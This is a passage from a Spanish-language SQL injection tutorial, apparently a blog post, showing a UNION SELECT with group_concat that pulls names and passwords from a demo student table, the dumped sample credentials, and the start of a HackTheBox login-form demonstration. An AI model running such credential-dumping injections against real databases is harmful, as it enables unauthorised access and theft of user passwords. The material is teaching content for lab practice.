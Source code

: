 Como ya sabemos las columnas , el nombre de la base de datos y las tablas es momento de filtrar por lo que nos interesa mmmmmhhh las contraseñas asi es :D **podemos agregar un group concat para filtrar el nombre y la contraseña separada de dos puntos**

```sql
select nombre,password from Alumnos where id = 1 union select "NULL", group_concat(nombre,':',password) from Alumnos;
```
![](/assets/img/commons/SQLI/sql14.png)

Y asi es como obtenemos las credenciales de una base de datos con SQLInjection ;)

```text
Omar:P@ssword123!,
Kevin:K3v1n_1235,
Ulises:Ul1z3s_qwr58 
```
## Poc2 SQLInjection

Ahora haré una demostración en un entorno controlado con una máquina de HackTheBox donde se pueden aplicar estas inyecciones es un aplicativo web 

Supongamos que tenemos este inicio de sesión en donde por detrás se hacen consultas para autenticarte, cada registro se va a una base de datos (como la que hice anteriormente)

![](/assets/img/commons/SQLI/sql15.png)
